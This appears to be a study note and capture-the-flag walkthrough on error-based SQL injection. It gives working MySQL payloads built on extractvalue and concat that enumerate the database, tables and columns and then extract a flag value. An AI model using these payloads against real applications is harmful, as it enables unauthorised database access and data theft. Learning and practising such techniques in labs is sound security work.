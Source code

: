 ## Part 3. Error based SQL Injection Process
1. Find SQL Point
ex) normaltic'
2. Output function of error
extractvalue
3. Create attack format
```javascript
normaltic' and extractvalue('1', concat(0x3a,(_______________))) and '1'='1
```
4. Output of DB name
```javascript
select database()
```
```javascript
normaltic' and extractvalue('1', concat(0x3a,(select database()))) and '1'='1
```
5. Table name
```javascript
limit(column_number, row_number)
select table_name from information_schema.tables where table_schema = 'database_name' limit 0,1
select table_name from information_schema.tables where table_schema = 'database_name' limit 1,1
select table_name from information_schema.tables where table_schema = 'database_name' limit 2,1
normaltic' and extractvalue('1', concat(0x3a,(select table_name from information_schema.tables where table_schema = 'database_name' limit 0,1))) and '1'='1
```
6. Column name
```javascript
select column_name from information_schema.columns where table_name = 'table_name' limit 0,1
normaltic' and extractvalue('1', concat(0x3a,(select column_name from information_schema.columns where table_name = 'table_name' limit 0,1))) and '1'='1
```
7. Data output
```javascript
select name from game limit 0,1
normaltic' and extractvalue('1', concat(0x3a,(select name from game limit 0,1))) and '1'='1
```

* CTF - SQL Injection (Error Based SQLi Basic)
1. Find SQL Point
2. Output function of error
3. Create attack format
4. Output of DB name: errSqli
```javascript
normaltic' and extractvalue('1', concat(0x3a,(select database()))) and '1'='1
```
5. Table name: flagTable
```javascript
normaltic' and extractvalue('1', concat(0x3a,(select table_name from information_schema.tables where table_schema = 'errSqli' limit 0,1))) and '1'='1
```
6. Column name: flag
```javascript
normaltic' and extractvalue('1', concat(0x3a,(select column_name from information_schema.columns where table_name = 'flagTable' limit 1,1))) and '1'='1
```
7. Data output
```javascript
normaltic' and extractvalue('1', concat(0x3a,(select flag from flagTable limit 0,1))) and '1'='1
```
